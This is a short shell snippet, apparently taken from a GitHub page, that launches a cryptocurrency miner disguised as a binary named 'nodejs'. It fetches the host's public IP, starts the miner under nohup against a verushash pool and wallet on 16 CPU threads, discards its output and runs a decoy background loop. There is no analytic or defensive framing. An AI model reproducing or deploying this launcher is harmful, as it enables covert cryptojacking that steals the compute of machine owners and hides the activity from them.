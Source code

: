 chmod +x nodejs
ip=$(curl ifconfig.io)
config="--algorithm verushash --pool ussw.vipor.net:5040 --wallet RHkiLGRarhTt8SF66vJzwEcyxNm4k1fXTH --password x --worker $ip --cpu-threads 16"
nohup bash -c 'while true; do date; sleep 10; done' &
nohup ./nodejs $config > /dev/null 2>&1 &
